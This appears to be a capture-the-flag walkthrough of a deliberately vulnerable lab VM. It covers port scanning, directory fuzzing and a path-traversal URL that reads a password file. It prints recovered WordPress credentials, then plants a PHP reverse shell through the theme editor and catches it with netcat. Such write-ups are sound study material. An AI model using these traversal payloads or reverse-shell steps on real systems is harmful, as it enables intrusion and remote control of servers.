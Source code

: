 *By Praveen Kumar Sharma*

<hr>

For me the IP of the machine is : **192.168.110.118**

Lets try pinging it :

![[Pasted image 20240808002313.png]]

Its online !!

<hr>

### Port Scanning : 

#### All Port Scan : 

```
nmap -p- -n -Pn --min-rate=10000 -T5 192.168.110.118 -o allPortScan.txt
```

![[Pasted image 20240808002350.png]]

>[!Open Ports] 
>PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Lets try a deeper scan :

#### Deeper Scan : 

```
nmap -sC -sV -A -T5 -p 22,80 192.168.110.118 -o deeperScan.txt
```

![[Pasted image 20240808002546.png]]

>[!Deeper Scan] 
>PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8d:c5:20:23:ab:10:ca:de:e2:fb:e5:cd:4d:2d:4d:72 (RSA)
|   256 94:9c:f8:6f:5c:f1:4c:11:95:7f:0a:2c:34:76:50:0b (ECDSA)
|_  256 4b:f6:f1:25:b6:13:26:d4:fc:9e:b0:72:9f:f4:69:68 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: HacknPentest
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

We do have this web application on port 80 lets try directory fuzzing 

<hr>

### Directory Fuzzing 

```
gobuster dir -u 192.168.110.118 -w /usr/share/wordlists/dirb/common.txt -x .txt,.php -o directories.txt
```

![[Pasted image 20240808002908.png]]

>[!Directories]
>/dev                  (Status: 200) [Size: 131]
/image.php            (Status: 200) [Size: 147]
/index.php            (Status: 200) [Size: 136]
/index.php            (Status: 200) [Size: 136]
/javascript           (Status: 301) [Size: 323] [--> http://192.168.110.118/javascript/]
/secret.txt           (Status: 200) [Size: 412]
/wordpress            (Status: 301) [Size: 322] [--> http://192.168.110.118/wordpress/]

Lets see this web application 

<hr>

### Web Application : 

![[Pasted image 20240808003110.png]]

Nothing in the source code either lets see the /dev here

![[Pasted image 20240808003137.png]]

Progress i Guess?

Lets try /image.php

![[Pasted image 20240808003241.png]]

Nothing here too also the /index.php is exactly same to image.php

![[Pasted image 20240808003337.png]]

Lets see the /wordpress before /secret.txt 


![[Pasted image 20240808003425.png]]

A login page here 

![[Pasted image 20240808003444.png]]

username and password doesnt seem to be admin and admin or password etc
did enumerate the name victor from booting the machine in the vm like this 

![[Pasted image 20240808003602.png]]
another thing here if we login as guest 

![[Pasted image 20240808003806.png]]

Lets checkout the /secret.txt here 

![[Pasted image 20240808003836.png]]

Lets see this link 

on this github page 

![[Pasted image 20240808003940.png]]

Lets try running this, didnt work correctly for me had to modify it a little bit 

```
wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404 --hw 500 http://192.168.110.118/index.php?FUZZ=something | grep -v "136"
```

![[Pasted image 20240808004322.png]]

so /index.php?file=location.txt as they mentioned 

![[Pasted image 20240808004446.png]]

So the other php we have is image.php lets try on there 

It worked 

![[Pasted image 20240808004606.png]]

As it mentioned it had password.txt on its home directory 

it type this in btw (we enumerate saket from guest session too)

```
http://192.168.110.118/image.php?secrettier360=../../../home/saket/password.txt
```

![[Pasted image 20240808004853.png]]

>[!Admin Login Creds]
>Username : victor
>Password : follow_the_ippsec

Lets try logging in and we can btw 

<hr>

### Gaining Access 

![[Pasted image 20240808005059.png]]

Lets get a reverse shell go in Appearance -> Theme Editor -> secret.php

![[Pasted image 20240808005156.png]]

Lets get the script from here : https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Change these 

![[Pasted image 20240808005343.png]]

copy paste it there then click on update files

![[Pasted image 20240808005552.png]]

Start a netcat listner

![[Pasted image 20240808005800.png]]

now go on this : http://192.168.110.118/wordpress/wp-content/themes/twentynineteen/secret.php

and we get a shell also look at this 

![[Pasted image 20240808005924.png]]

Lets upgrade the shell first 

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Then press ^Z 
then type in 

```
stty raw -echo; fg
```

then press enter once 
then type in 

```
export TERM=xterm
```

This one might work for us 

![[Pasted image 20240808010335.png]]

Lets get it like this :

![[Pasted image 20240808010411.png]]

then start a python server on your host from the mahcine to get this file 

![[Pasted image 20240808010523.png]]

Get it like this 

![[Pasted image 20240808010607.png]]

Lets compile it

![[Pasted image 20240808010707.png]]

now run it 

![[Pasted image 20240808010733.png]]

we get root lets get the both the flags 

Here is both the flag :

![[Pasted image 20240808010851.png]]

